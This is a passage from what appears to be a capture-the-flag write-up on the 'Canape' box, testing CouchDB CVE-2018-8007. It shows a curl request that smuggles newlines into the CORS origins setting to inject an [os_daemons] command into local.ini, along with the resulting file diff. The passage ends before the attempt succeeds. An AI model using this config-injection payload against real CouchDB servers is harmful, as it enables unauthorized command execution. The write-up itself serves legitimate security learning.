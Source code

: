 

At this point, I am stuck. An undefined "case_clause" error wasn't too
Googleable. And this isn't really a path for this box anyway. If you
know why it's breaking here, please leave a comment!

#### Successful CVE-2018-8007 With root Help

In writing this post, I found a new CVE had been released for CouchDB
from mdsec,
[CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/).
It also requires writes to the `local.ini` file, so it isn't a useful
option for Canape. But since I've already made it writable as root,
let's see if we can get it to work.

Start with a clean and now writable `local.ini` (and a backup):



    root@canape:/home/homer/etc# ls -l
    total 40
    -r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
    -rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
    -r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
    -r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args



We can use curl to modify the origins in the `local.ini` file. The
vulnerability here is that if we use curl to put a new origin and then
newlines, we can write additional stuff, including a new header and
details. So we'll take advantage of the `[os_daemons]` field, and add a
process for CouchDB to try to keep running:



    www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"



In the root shell, we can see what changes:



    root@canape:/home/homer/etc# diff local.ini local.ini.bk
    119,124d118
    <
    < [cors]
    < origins = 0xdf
    <
    < [os_daemons]
    < test_daemon = /usr/bin/touch /tmp/0xdf



And yet, the file isn't there:


